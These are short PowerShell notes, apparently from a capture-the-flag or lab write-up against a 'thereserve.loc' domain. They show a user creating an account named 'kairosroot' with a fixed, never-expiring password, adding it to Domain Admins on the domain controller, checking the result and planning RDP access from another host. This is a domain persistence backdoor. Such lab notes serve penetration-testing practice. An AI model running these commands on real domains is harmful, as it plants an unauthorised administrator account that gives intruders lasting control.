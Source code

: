 PS C:\Users\Administrator>`$pwd = convertTo-SecureString "Capstone1@" -AsPlainText -Force`

PS C:\Users\Administrator> `New-ADUser -Name "kairosroot" -AccountPassword $pwd -PasswordNeverExpires $true -Enabled $true`

PS C:\Users\Administrator>`$User = Get-ADUser -Identity "kairosroot"  -Server "bankdc.bank.thereserve.loc"`

PS C:\Users\Administrator>`$Group = Get-ADGroup -Identity "Domain Admins" -Server "bankdc.bank.thereserve.loc"`

PS C:\Users\Administrator>`Add-ADGroupMember -Identity $Group -Members $User -Server "bankdc.bank.thereserve.loc"`

### Check out the user and group

PS C:\Users\Administrator> `echo $user`

![[Create a new user on BANKDC-20240616154358497.webp]]

PS C:\Users\Administrator> `echo $group`

![[Create a new user on BANKDC-20240616154446455.webp]]

RDP from CORPDC to any computer.